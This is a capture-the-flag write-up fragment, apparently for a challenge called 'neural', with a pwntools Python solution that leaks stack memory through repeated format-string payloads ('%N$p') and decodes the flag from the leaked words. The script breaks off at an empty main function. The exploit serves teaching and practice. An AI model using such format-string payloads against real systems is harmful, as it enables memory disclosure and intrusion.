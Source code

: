 This function just simpily returns the flag.

### Solution

```python
#!/usr/bin/env python3

from pwn import *
import time

elf = ELF("./neural_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""


def conn():
    if args.REMOTE:
        r = remote("34.130.180.230", 6833)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def find_flag(n):
    context.log_level = "ERROR"
    leak = ""
    for i in range(n//10):
        r = conn()
        payload = b''
        for j in range(i*10+1,i*10+11):
            payload += f"%{j}$p|".encode("ascii")
        payload += b'*'
        r.sendlineafter(b'>>', payload)
        r.recvuntil(b'Pattern decoded as - \n')
        leak += r.recvuntil(b'*', drop=True).decode("ascii")
        r.clean()
        r.close()
    context.log_level = "INFO"

    leak = leak.split("|")
    flag = ''
    for i in range(len(leak)-1):
        try:
            l = p32(int(leak[i],16)).decode("ascii")
        except:
            l = ''
        flag += l
    try:
        flag = flag[flag.index("flag") : flag.index("}")+1]
    except:
        log.failure("No Flag, n need to be larger, or change the flag header")
        return ""


    return flag


def main():
```